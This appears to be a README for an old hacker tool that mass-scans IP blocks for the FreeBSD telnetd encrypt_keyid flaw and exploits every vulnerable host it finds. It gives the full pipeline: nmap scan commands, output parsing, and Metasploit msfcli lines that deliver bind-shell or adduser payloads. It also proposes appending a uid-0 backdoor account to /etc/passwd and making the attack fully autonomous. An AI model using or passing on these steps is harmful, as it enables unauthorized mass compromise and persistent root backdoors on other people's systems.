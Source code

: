 Free-BSD
========

Remember when FreeBSD was hit w/the telnet vuln, and people went crazy to own it .. well this was (now oudated) tool that allowed for scanning and owning of large IP blocks. 



Telnetd stitching
- "scan, collect, exploit"
by: sk
updated: 12/29/11

Todo: Make 100% autonomous
Todo: Add support for linux
Thoughts: Perhaps we just run a single command on each host
        this way we require no user interaction. For example:
	echo "blah:hashhashhashhash:0:0:Blah:/var/root:/bin/sh" >> /etc/passwd

Shoutz: Bindshell crew, ohdae, vorbs, et all.

--- Setup / PreReqs
-------------------

* Update metasploit via svn up
- cd /opt/metasploit3/msf3; svn up

       FreeBSD, works:
       use exploit/freebsd/telnet/telnet_encrypt_keyid 
       set payload bsd/x86/shell/bind_tcp

       Linux, (haven't tested...):
       use exploit/linux/telnet/telnet_encrypt_keyid 
       set payload/linux/x86/adduser


* Update nmap (download and build from source)
- svn co https://svn.nmap.org/nmap
- cd nmap; configure; make


--- Vuln search, exploiting
---------------------------

* Run nmap against your host(s):
./nmap -p23 -PS23 --script telnet-encryption -T5 -oA telnet_logs <IP...>

* Parse output: 
php parseGnmap.php -f telnet_logs.gnmap -o outfile.txt

* Now run the file and sploit each host:
- chmod +x outfile.txt
- ./outfile.txt
  (example: msfcli exploit/freebsd/telnet/telnet_encrypt_keyid RHOST=<IP> PAYLOAD=bsd/x86/shell/bind_tcp E)
 
